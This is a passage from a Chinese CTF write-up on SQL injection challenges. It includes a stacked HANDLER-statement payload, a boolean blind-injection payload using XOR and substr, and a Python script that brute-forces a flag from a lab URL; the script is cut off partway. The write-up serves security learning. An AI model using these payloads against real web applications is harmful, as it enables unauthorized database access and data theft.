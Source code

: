 > handler table_name close;
> ```
>
> 打开数据库，开始循环读取，读取成功后关闭

构造payload后成功读取flag

```
1';handler FlagHere open;handler FlagHere read next; handler FlagHere close;--+
```

### [CISCN2019 华北赛区 Day2 Web1]Hack World

![image-20250213202134088](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250213202134088.png)

拿到题目发现表名和列名都给了，然后开始测试，发现很多都给过滤了，拿burp测了测，长度为525的没被过滤，但是都么啥有用的东西

![image-20250213202731621](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250213202258020.png)

但是发现在数字后面加个单引号，就会触发这个，不知道是为什么

![image-20250212172043889](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250213202410839.png)

然后又测试了一下，发现1会输出一句话

![image-20250213202410839](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250213202731621.png)

接着尝试，发现传入一个true也可以，那这里其实可以用布尔盲注

![image-20250215113024445](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250213202755975.png)

构造payload

```
0^(ascii(substr((payload),1,1))=102)
```

```
0^(ascii(substr((select(flag)from(flag)),1,1))=102)
```

> ​`^`​是异或的符号，所以这里使用0和后面的结果异或，当后面的结果为true时，返回1，为false时，为0
>
> ​`(select(flag)from(flag))`​从flag表中寻找flag列
>
> ​`substr((payload),1,1)`​用substr从第一个字符开始截取一个字符
>
> ​`ascii()=102`​判断这个字符的值是否等于102

本来想用burp来爆破的，但是想了想flag应该挺长，爆出来还要自己拼，就写了一个脚本

```python
import requests

url = 'http://893c0d7b-a16b-477b-bbf1-bcae5fed8692.node5.buuoj.cn:81/index.php'

flag = ""
num = 1

while (True):
    for i in range(32, 128):
        key = {
        'id': f"0^(ascii(substr((select(flag)from(flag)),{num},1))={i})"
        }
        resp = requests.post(url, data=key)
        resp.encoding = 'utf-8'
        if 'Hello' in resp.text:
            print('true')
            flag += chr(i)
```
